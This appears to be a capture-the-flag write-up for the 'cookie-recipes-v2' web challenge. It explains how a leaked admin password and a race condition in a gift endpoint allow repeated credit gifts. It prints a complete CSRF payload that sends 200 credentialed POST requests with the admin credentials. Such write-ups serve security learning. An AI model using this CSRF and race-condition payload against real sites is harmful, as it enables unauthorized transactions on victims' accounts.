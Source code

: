 # cookie-recipes-v2

Source: [index.js](./index.js)

The "gift" endpoint is vulnerable to CSRF as long as we have the admin password. We can get this from the `userInfo` endpoint: `https://cookie-recipes-v2.2020.redpwnc.tf/api/userInfo?id=0`. The next step is to figure out how to recieve a gift multiple times, since only 1 gift won't be enough to buy the flag. We can exploit a race condition in the gifting code, as it only sets the recieved status after it gifts us 150 credits. This means that if we spam many gift requests, we can cause the server to gift us multiple times, allowing us to buy the flag.

Final Exploit:

```html
<script>
	for (i = 0; i < 200; i++) {
		var xhr = new XMLHttpRequest();
		xhr.open("POST", "https://cookie-recipes-v2.2020.redpwnc.tf/api/gift?id=11715887817660277906");
		xhr.withCredentials = true;
		xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
		xhr.send('{"username":"admin","password":"n3cdD3GjyjGUS8PZ3n7dvZerWiY9IRQn"}');
	}
</script>
```

Flag: `flag{n0_m0r3_gu3551ng}`
